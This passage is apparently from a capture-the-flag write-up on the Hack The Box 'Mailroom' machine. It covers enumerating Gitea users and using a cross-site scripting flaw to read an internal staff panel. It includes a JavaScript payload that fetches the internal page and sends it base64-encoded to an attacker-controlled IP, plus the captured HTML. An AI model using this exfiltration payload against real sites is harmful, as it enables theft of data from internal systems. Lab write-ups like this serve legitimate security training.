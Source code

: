 The user sitemap gives three usernames,

-   `administrator`
-   `matthew`
-   `tristan`

```bash
> http -pb git.mailroom.htb/explore/users/sitemap-1.xml
...snip...
  <url>
    <loc>http://git.mailroom.htb/administrator</loc>
...snip...
    <loc>http://git.mailroom.htb/matthew</loc>
...snip...
    <loc>http://git.mailroom.htb/tristan</loc>
...snip...
```

---

## Foothold

---

### Exfiltrating data using XXS

Since the staff site is forbidden when accessed internally, maybe it can be accessed using the XSS vulnerability on the contact page. A payload like this works. Additionally, the data must be base64 encoded, as it is being exfiltrated as an HTTP parameter.

```js
fetch("http://staff-review-panel.mailroom.htb").then((r) =>
    r
        .text()
        .then((data) =>
            fetch(
                `http://10.10.14.35/exfil?data=${btoa(
                    unescape(encodeURIComponent(data))
                )}`
            )
        )
);
```

I developed a [small Flask application](https://gist.github.com/AbraXa5/f8f7e0a6caec4c7a5eb6c426a575923b#file-xxs_exfil-py) to automate the decoding process for each request. Using the payload returns the source for the staff review site.

```bash
> python xss_exfil.py
2023-07-17 18:32:34,435 - INFO - Starting server on http://0.0.0.0:80, use <Ctrl-C> to stop

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
  <meta name="description" content="" />
  <meta name="author" content="" />
  <title>Inquiry Review Panel</title>
  <!-- Favicon-->
  <link rel="icon" type="image/x-icon" href="assets/favicon.ico" />
  <!-- Bootstrap icons-->
  <link href="font/bootstrap-icons.css" rel="stylesheet" />
  <!-- Core theme CSS (includes Bootstrap)-->
  <link href="css/styles.css" rel="stylesheet" />
```